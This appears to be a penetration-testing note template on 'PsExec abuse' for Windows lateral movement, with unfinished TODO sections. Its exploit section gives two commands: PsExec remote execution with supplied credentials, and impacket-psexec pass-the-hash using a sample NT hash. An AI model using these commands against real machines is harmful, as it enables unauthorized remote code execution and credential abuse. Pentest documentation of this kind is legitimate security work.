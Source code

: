 # PSExec Abuse
---

## Vulnerability

TODO: Describe the vulnerability here.

## Prerequisites

* Local administrator rights on the target machine.

## Exploit

```bash
# From a domain joined Windows computer.
./PsExec.exe -i \\$target -u $domain\$username -p $password '$command'

# From Kali (pass the hash does not require LMHash, just put 32 0's).
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b $username@$target
```

## Recommendations

- [ ] TODO: List recommendations here.